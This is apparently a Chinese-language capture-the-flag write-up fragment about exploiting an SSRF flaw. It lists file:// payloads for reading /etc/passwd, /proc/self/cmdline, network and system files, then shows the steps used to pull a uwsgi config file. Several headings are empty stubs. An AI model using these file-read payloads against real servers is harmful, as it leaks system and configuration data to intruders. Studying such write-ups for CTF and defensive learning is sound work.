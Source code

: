 redis为一个非关系型数据库，存储采用key-value的形式，在linux

### gopher

虽然本题与gopher无关，但还是想要介绍一下gopher

### python反序列化

## 利用ssrf通过file协议泄露文件

随意登录后，有一个请求地址的输入框，猜测是一个ssrf漏洞，测试常见协议：http，gopher，dict，file，php等。测试后发现支持file，估计可以读取文件。不支持gopher（没看回包，用gopher打了两天），不支持php，应该不是php写的web。

### 常用文件

尝试利用file协议去读取本地文件，首先测试操作系统：

```
file:///etc/passwd            linux
file:///C:\Windows\win.ini    windows
```
常用linux文件：

```
file:///etc/passwd            获得用户信息
file:///etc/hosts             获得主机网络配置
file:///proc/self/cmdline     获得当前进程启动命令
file:///proc/self/maps        获得当前进程内存布局
file:///proc/net/arp          获得内网机器信息
file:///proc/net/tcp          获得tcp端口信息
file:///proc/cpuinfo          获得cpu信息
file:///proc/version          获得系统版本信息
file:///flag                  猜测flag
```

### 本题思

- 首先通过 file:///proc/self/cmdline 获得如下配置信息

```
uwsgi--ini/app/app.ini
```

- 然后通过配置文件 file:///app/app.ini 获得启动信息

```
[uwsgi]
http = 0.0.0.0:7002
pythonpath = /app
wsgi-file = /app/main.py
callable = app
processes = 1
threads = 10
# daemonize = /tmp/app.log
uid = 1001
gid = 1001
```
